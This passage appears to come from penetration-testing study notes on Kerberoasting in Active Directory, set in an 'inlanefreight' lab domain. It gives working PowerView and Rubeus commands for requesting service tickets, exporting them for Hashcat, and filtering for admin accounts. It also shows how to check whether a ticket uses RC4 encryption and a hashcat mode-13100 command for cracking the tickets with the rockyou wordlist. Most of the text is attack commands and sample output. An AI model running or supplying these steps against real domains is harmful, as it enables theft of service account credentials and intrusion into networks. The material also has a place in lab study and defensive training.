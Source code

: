 **3.** Or obtain all SPN TGS tickets and export them to a CSV

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\FileName.csv -NoTypeInformation
```


### Rubeus

[See more about Rubeus](rubeus.md).

Gather stats:

```powershell
.\Rubeus.exe kerberoast /stats
```

Request tickets with admincount attribute set to 1:

```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
# /nowrap flag: so that the hash can be more easily copied down for offline cracking using Hashcat. The ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped.
```

 Perform Kerberoasting on a user testspn:
 
```powershell
# Perform Kerberoasting on a user testspn
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

If the received TGS ticket is RC4 (type 23) encrypted, it will be easier to crack. We can check out if the user hast the `msDS-SupportedEncryptionTypes` attribute is set to `0`.  The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               0   testspn
```

With RC4 (type 23) encryption, this would be the hashcat module:

```shell-session
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

The results for the AES-256 (type 18) encryption would be `24`:

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               24   testspn
```
